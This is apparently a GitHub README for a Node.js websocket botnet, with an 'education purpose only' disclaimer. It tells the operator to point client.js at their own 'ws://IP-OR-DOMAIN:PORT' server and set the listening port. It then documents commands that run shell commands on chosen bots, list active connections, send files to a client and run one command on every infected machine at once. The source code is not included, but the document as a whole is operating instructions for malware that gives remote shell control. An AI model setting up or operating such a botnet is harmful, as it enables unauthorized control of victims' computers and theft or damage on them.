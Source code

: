 
# Botnet using websocket (Node)

NodeJS Botnet using websocket to interact between clients & server. Use it at your own risks (for education purpose only).

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages (all includes in the package.json).
Just launch that : 
```bash
npm install
```

## Settings (same as reverse-shell-js)

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable, line 8 :
```javascript
let port = 8080;
```

## Usage

> $ {id} shell_command

## Special commands

╔══════════╤══════════════════════════════════════════════╗
║ commands │                                              ║
╠══════════╪══════════════════════════════════════════════╣
║   help   │    All commands (other of shell commands)    ║
╟──────────┼──────────────────────────────────────────────╢
║   list   │          List all active connections         ║
╟──────────┼──────────────────────────────────────────────╢
║ sendfile │         Send file to specific client         ║
╟──────────┼──────────────────────────────────────────────╢
║  execall │ Execute a same command for every connections ║
╚══════════╧══════════════════════════════════════════════╝

![image](https://user-images.githubusercontent.com/65828028/124164591-1f05dd80-daa1-11eb-99a8-974086eb4cde.png)

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[GNU AGPLv3](https://choosealicense.com/licenses/agpl-3.0/)
